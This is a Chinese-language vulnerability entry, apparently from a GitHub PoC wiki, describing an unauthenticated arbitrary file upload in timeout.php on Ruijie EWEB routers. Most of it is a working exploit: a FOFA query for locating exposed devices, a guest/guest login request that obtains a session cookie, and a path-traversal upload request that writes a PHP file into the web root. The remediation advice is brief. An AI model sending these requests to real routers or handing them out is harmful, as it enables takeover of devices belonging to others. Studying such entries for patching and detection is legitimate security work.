



#  锐捷EWEB路由器-timeout.php任意文件上传漏洞

# 漏洞描述

锐捷EWEB路由器-timeout.php任意文件上传漏洞，未授权的攻击者可上传恶意文件导致服务器被控制。

# 影响版本

锐捷EWEB路由器

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="锐捷网络-EWEB网管系统"

POC/EXP：获取cookie

```
POST /ddi/server/login.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Content-Length: 30
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

username=guest&password=guest?

```




POC/EXP：上传文件、

```
POST /system_pi/timeout.php?a=upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Length: 62
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=f7ma4hjcmm0ncqv7ljbejboqj4; path=/; HttpOnly; 
X-Requested-With: XMLHttpRequest
Connection: keep-alive

fileName=../tmp/html/112233.php&mes=<?php echo 3,1415926;?>
```







# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
